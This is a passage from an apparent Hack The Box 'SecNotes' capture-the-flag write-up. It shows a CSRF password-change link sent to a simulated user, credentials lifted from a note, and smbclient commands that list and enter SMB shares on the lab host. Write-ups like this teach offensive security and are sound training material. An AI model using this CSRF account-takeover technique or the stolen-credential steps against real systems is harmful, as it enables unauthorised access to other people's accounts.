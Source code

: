 ![](/assets/images/htb-writeup-secnotes/6.png)

### Finding #5: We can have Tyler change his password by sending him a link

The Change Password page works through a POST request but it also works if we use a GET request instead.

We can send messages to Tyler through the Contact Us form and he'll click on every link that we send him. Because there is no anti-CSRF token on the Change Password page, we can trick Tyler in changing his password.

Initially, I tried sending an HTML link such as:

`<a href="http://10.10.10.97/change_pass.php?password=test11&confirm_password=test11&submit=submit">Click this!</a>` but it didn't work.

However plaintext works: `http://10.10.10.97/change_pass.php?password=test11&confirm_password=test11&submit=submit`.

So we send this to Tyler and we can log in after with the password we specified in the link.

### User shell

The credentials for Tyler are in one of the notes:

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

Let's verify which shares he has access to:

```
root@darkisland:~/tmp# smbclient -U tyler -L //10.10.10.97
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	new-site        Disk      

root@darkisland:~/tmp# smbclient -U tyler //10.10.10.97/new-site
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.

```